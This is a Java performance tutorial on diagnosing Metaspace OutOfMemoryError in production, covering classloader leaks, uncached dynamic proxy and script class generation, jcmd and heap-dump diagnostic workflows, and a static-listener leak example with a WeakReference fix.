Before JDK 8, class metadata was stored in "PermGen" (permanent generation) - a fixed-size heap area. `PermGen` OOM was common and well-understood. JDK 8 replaced PermGen with Metaspace (native memory, dynamically sized). This eliminated PermGen tuning but introduced a new failure mode: unbounded Metaspace growth until OS OOM kill (if MaxMetaspaceSize not set). The common causes remained the same: classloader leaks from redeployment (application servers) and dynamic class generation (proxies, scripting engines, CGLIB).

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Classes are GC-root anchored by their ClassLoader:** A class can only be unloaded when its ClassLoader is garbage collected. If the ClassLoader is reachable, ALL its loaded classes remain in Metaspace.
2. **Dynamic class generation creates new class metadata:** Every `Proxy.newProxyInstance()`, CGLIB class, Groovy script compilation, or JSP compilation creates a new class entry in Metaspace.
3. **Default Metaspace is unbounded:** Without `-XX:MaxMetaspaceSize`, Metaspace grows until native memory is exhausted (OOM kill, not OutOfMemoryError). Setting a limit converts silent death to catchable error.

**DERIVED DESIGN:**

These invariants mean: (1) find WHICH classloader is leaking (retaining classes), (2) identify what generates unbounded new classes, (3) always set MaxMetaspaceSize to get a clean error instead of process kill.

**THE TRADE-OFF:**

**Gain:** Metaspace (native memory) is not subject to GC pause overhead. Class metadata is accessed frequently and benefits from native allocation.

**Cost:** Not visible in standard heap monitoring. Leaks are subtle (classloader reference chains). Harder to diagnose than heap leaks.

---

### 🧠 Mental Model

> Metaspace is like a library's card catalog (metadata about classes). Each librarian (ClassLoader) manages a section of cards. You cannot remove a section of cards until the librarian retires (ClassLoader is GC'd). If a librarian keeps getting hired with a fresh section but never retires (classloader leak), the catalog grows until the building (native memory) is full. The solution: figure out why librarians are not retiring.

- "Card catalog" -> Metaspace (class metadata storage)
- "Librarian" -> ClassLoader instance
- "Section of cards" -> classes loaded by that ClassLoader
- "Librarian retires" -> ClassLoader becomes unreachable (GC)
- "Building full" -> native memory exhausted (Metaspace OOM)
- "Keeps getting hired" -> new ClassLoaders created (leak)

**Where this analogy breaks down:** real librarians can be fired (explicitly unload). Java ClassLoaders cannot be explicitly unloaded - they must become unreachable to GC. Any single reference to the ClassLoader or its classes prevents unloading.

---

### 🧩 Components

- **Metaspace:** Native memory area storing class metadata (methods, field descriptors, constant pools, annotations, bytecode). One allocation per loaded class.
- **ClassLoader:** Each ClassLoader has a Metaspace chunk. When ClassLoader is collected, its Metaspace chunk is freed.
- **Class histogram:** `jcmd <pid> GC.class_histogram` shows loaded class count by name. Duplicate class names with different ClassLoaders = leak signal.
- **ClassLoader statistics:** `jcmd <pid> VM.classloader_stats` shows per-classloader class counts and Metaspace usage.
- **-XX:MaxMetaspaceSize:** Bounds Metaspace growth. Without it, grows until OS kills process. With it, throws OOM (catchable, diagnosable).

```text
Metaspace architecture:
  ClassLoader A:
    [class metadata: MyService, MyRepo, ...]
    [Metaspace chunk: 15MB]
  ClassLoader B (framework):
    [class metadata: Proxy$$1, Proxy$$2, ...]
    [Metaspace chunk: growing... 50MB... 100MB...]
  ClassLoader C (old deploy - leaked):
    [class metadata: stale classes...]
    [Metaspace chunk: 80MB - NEVER freed]

  Total Metaspace: 15 + 100 + 80 = 195MB (growing)
  MaxMetaspaceSize: 256MB
  At 256MB: OutOfMemoryError: Metaspace

Common leak sources:
  1. Hot redeploy (old ClassLoader retained)
  2. Dynamic proxy generation (unbounded)
  3. Groovy/script compilation (new class each eval)
  4. CGLIB/ByteBuddy without caching
```

```mermaid
flowchart TD
    A[ClassLoader Created] --> B[Classes Loaded into Metaspace]
    B --> C{ClassLoader becomes unreachable?}
    C -->|Yes| D[GC collects ClassLoader]
    D --> E[Metaspace chunk freed]
    C -->|No - leaked reference| F[Classes NEVER unloaded]
    F --> G[Metaspace grows indefinitely]
    G --> H[OutOfMemoryError: Metaspace]
```

---

### 📶 Gradual Depth

**Level 1 - What it is:** Every Java class loaded takes up memory in a special area called Metaspace. If something keeps loading new classes without unloading old ones, Metaspace fills up and the JVM crashes with OutOfMemoryError.

**Level 2 - How to use it:** Always set `-XX:MaxMetaspaceSize=256m` (or appropriate limit). Monitor `jvm_classes_loaded` metric - if it grows continuously, something is generating classes. Use `jcmd <pid> GC.class_histogram` to see which classes are accumulating.

**Level 3 - How it works:** Classes are anchored to their ClassLoader. A class can only be unloaded when its ClassLoader has no references and is GC-collected. If a ClassLoader leaks (retained by a thread, static field, or another ClassLoader's reference), ALL its classes stay in Metaspace permanently. Common leak: old webapp ClassLoader retained by a ThreadLocal or static callback registration.

**Level 4 - Production mastery:** Diagnosis workflow: (1) `jcmd <pid> GC.class_histogram` - look for duplicate entries (same class name, multiple instances means multiple ClassLoaders loaded it). (2) `jcmd <pid> VM.classloader_stats` - find ClassLoader with excessive class count. (3) Heap dump: find instances of the leaking ClassLoader, trace references to find what retains it. (4) Common retainers: ThreadLocal referencing a class from the old ClassLoader, static field in a class loaded by a parent ClassLoader that references a child ClassLoader's class, JMX MBean registration that holds a reference.

---

### ⚙️ How It Works

**Phase 1 - Normal Class Loading:** Application starts. ClassLoaders load classes. Metaspace grows to steady-state (50-200MB typically).

**Phase 2 - Dynamic Class Generation:** Framework generates proxy classes (Spring AOP, Hibernate entities). Each generation adds Metaspace. If cached: steady state. If uncached: continuous growth.

**Phase 3 - Leak Pattern:** New ClassLoader created (redeploy, script eval). Old ClassLoader should be collected. Reference chain prevents collection. Old classes remain in Metaspace. New classes added alongside them.

**Phase 4 - Exhaustion:** Metaspace reaches MaxMetaspaceSize. Next class load attempt triggers `OutOfMemoryError: Metaspace`. GC runs (full GC) attempting to unload classes - but leaked ClassLoaders are still reachable. OOM persists.

```text
Diagnosis workflow:

Step 1: Confirm Metaspace is the issue
  jcmd <pid> VM.native_memory summary
  Look for: "Class" category growing over time

Step 2: Count loaded classes
  jcmd <pid> GC.class_histogram | head -30
  Look for: unexpected class counts
  e.g., "com.sun.proxy.$Proxy" with 50,000 instances

Step 3: Find the leaking ClassLoader
  jcmd <pid> VM.classloader_stats
  Look for: ClassLoader with abnormally high count
  e.g., "GroovyClassLoader - 12,500 classes"

Step 4: Find retainer (heap dump)
  jmap -dump:live,file=heap.hprof <pid>
  In MAT: find ClassLoader instances
  Trace incoming references (who holds it?)
  Common: ThreadLocal, static field, listener
```

```mermaid
sequenceDiagram
    participant App as Application
    participant CL as ClassLoader (leaked)
    participant MS as Metaspace
    participant GC as Garbage Collector
    App->>CL: load classes (deploy 1)
    CL->>MS: allocate metadata (50MB)
    App->>App: ThreadLocal retains CL reference
    App->>App: "redeploy" - new ClassLoader
    Note over CL: old CL should be collected
    GC->>CL: attempt collect - RETAINED by ThreadLocal!
    Note over MS: old 50MB NEVER freed
    App->>MS: new classes added (50MB more)
    Note over MS: 100MB used (50MB leaked)
    Note over MS: grows until MaxMetaspaceSize hit
```

---

### 🚨 Failure Modes

**Failure 1 - Dynamic Proxy Generation Without Caching:**

**Symptom:** Metaspace grows linearly with request count. Each request generates a new proxy class.

**Root cause:** Framework creates `Proxy.newProxyInstance()` or CGLIB class per request instead of caching proxy for each interface/target combination.

**Diagnostic:**

```bash
# Count proxy classes:
jcmd <pid> GC.class_histogram | grep -i proxy
# If count grows over time: proxy leak
# e.g., "com.sun.proxy.$Proxy12345" (high number)
```

**Fix:** Cache proxies. Spring/Hibernate cache by default - if growing, check custom proxy creation. For Groovy/scripting: reuse compiled script classes, do not recompile per invocation.

**Failure 2 - Hot Redeploy ClassLoader Leak:**

**Symptom:** Metaspace jumps 50-100MB with each redeploy. Never shrinks. Eventually OOM after N redeploys.

**Root cause:** Old ClassLoader retained by: ThreadLocal in a thread pool thread, JMX MBean registration, static event listener, JDBC driver registration.

**Diagnostic:**

```bash
# Check ClassLoader count:
jcmd <pid> VM.classloader_stats
# If old loaders appear with classes still loaded:
# -> classloader leak
# Heap dump: search for multiple WebAppClassLoader
# instances. Only ONE should exist (current).
# Others are leaked.
```

**Fix:** (1) Clear ThreadLocals before undeploy (`ThreadLocal.remove()` in shutdown hook). (2) Deregister JMX MBeans. (3) Deregister JDBC drivers. (4) Remove static listeners. Tomcat/Jetty have leak-detection warnings for these patterns.

---

### 🔬 Production Reality

The most common Metaspace leak in modern cloud-native services (where hot redeploy is less common) is DYNAMIC CLASS GENERATION from frameworks: (1) Groovy scripts compiled per evaluation (rule engines, config-as-code), (2) Reflection-based serialization generating accessor classes (Kryo, certain JSON libraries), (3) Lambda metafactory creating one-off classes for non-capturing lambdas in older JDKs (fixed in recent versions). The fix pattern is always: ensure the dynamic generation is CACHED. One class per unique pattern, not one class per invocation.

---

### ⚖️ Trade-offs & Alternatives

| Aspect         | No MetaspaceMax        | With MetaspaceMax      | Class Data Sharing    |
| -------------- | ---------------------- | ---------------------- | --------------------- |
| Failure mode   | OS OOM kill (no error) | OOM: Metaspace (clean) | Shared read-only      |
| Diagnosability | Low (sudden death)     | High (heap dump + log) | N/A (prevents growth) |
| Default        | Yes (unbounded)        | Must set explicitly    | JDK 10+ (opt-in)      |
| Protection     | None                   | Bounded growth         | Reduces Metaspace     |
| Recommendation | NEVER in production    | ALWAYS in production   | For startup + sharing |

---

### ⚡ Decision Snap

**ALWAYS SET MaxMetaspaceSize WHEN:**

- Any production JVM. No exceptions. 256MB is a safe starting default.
- Without it, leak = sudden process death with no error in JVM logs.

**INVESTIGATE METASPACE WHEN:**

- `jvm_classes_loaded` metric grows continuously.
- Service has hot redeploy, scripting engines, or heavy proxy use.
- OOM: Metaspace error in logs.

**PREVENT WITH:**

- Cache all dynamic class generation (proxies, scripts).
- Use CDS (Class Data Sharing) for shared framework classes.
- Avoid hot redeploy in production (use rolling restart).

---

### ⚠️ Top Traps

| #   | Misconception                           | Reality                                                                                                                 |
| --- | --------------------------------------- | ----------------------------------------------------------------------------------------------------------------------- |
| 1   | "Metaspace OOM is a heap problem"       | Metaspace is NATIVE memory. Increasing -Xmx does not help. Need MaxMetaspaceSize or fix the leak.                       |
| 2   | "Full GC cleans up Metaspace"           | Full GC can unload classes, but ONLY if their ClassLoader is unreachable. Leaked ClassLoaders survive Full GC.          |
| 3   | "Modern frameworks do not leak classes" | Spring AOP, Hibernate proxies, and scripting engines still generate classes. Without caching, they leak.                |
| 4   | "MaxMetaspaceSize is risky to set"      | NOT setting it is risky (unbounded growth, sudden kill). Setting it gives you a clean error and heap dump opportunity.  |
| 5   | "Class count is small and stable"       | A Groovy rule engine can generate 100+ classes per rule per evaluation. At 1000 eval/s without caching: 100K classes/s. |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-063 Native Memory Tracking (NMT) - NMT shows Metaspace/Class category
- JVM-073 Java Module System (JPMS) and ClassLoader - understand classloader hierarchy

**THIS:** JVM-101 Diagnosing Metaspace OOM in Production

**Next steps:**

- JVM-084 Native Memory Leaks (JNI, Unsafe, Direct BB) - other native memory leak patterns
- JVM-089 Unified JVM Logging (-Xlog) - class loading logging for leak detection

---

**The Surprising Truth:**

The easiest Metaspace leak to create (and the hardest to find) is a SINGLE static field. If class `A` (loaded by parent ClassLoader) has a static field referencing an object whose class was loaded by child ClassLoader `B`, then ClassLoader `B` can NEVER be collected - even after all application code stops using `B`'s classes. The reference chain: static field in A -> object -> object's class -> ClassLoader B. This is why frameworks that store callbacks or listeners in static registries are the #1 source of classloader leaks in application servers. One static reference = entire ClassLoader pinned.

**Further Reading:**

- Oracle Troubleshooting Guide: "Diagnosing ClassLoader Leaks"
- Zeroturnaround (JRebel): "Classloader Leaks" whitepaper - patterns catalog
- JDK source: `java.lang.ClassLoader` + Metaspace allocation implementation

**Revision Card:**

1. Classes are unloaded ONLY when their ClassLoader is GC-collected. One reference to the ClassLoader = all its classes retained forever.
2. Always set `-XX:MaxMetaspaceSize=256m`. Without it: unbounded growth -> OS kill without JVM error. With it: clean OOM + heap dump.
3. Diagnosis: `jcmd GC.class_histogram` (growing classes?), `VM.classloader_stats` (which loader?), heap dump (what retains loader?).

**BAD:**

```java
// Static callback retains ClassLoader forever
public class EventBus { // loaded by parent CL
    static List<Listener> listeners = new ArrayList<>();
    public static void register(Listener l) {
        listeners.add(l);
        // If l's class was loaded by child ClassLoader:
        // child CL NEVER collected (pinned by static)
        // All child CL's classes stuck in Metaspace
        // After 10 redeploys: 10 leaked ClassLoaders
    }
}
```

**GOOD:**

```java
// WeakReference prevents ClassLoader pinning
public class EventBus {
    static List<WeakReference<Listener>> listeners =
        new CopyOnWriteArrayList<>();
    public static void register(Listener l) {
        listeners.add(new WeakReference<>(l));
        // Weak ref: does not prevent GC of listener
        // When child CL unreachable: listener collected
        // -> child CL collected -> Metaspace freed
    }
    // Cleanup: remove collected weak refs periodically
}
```

---

---
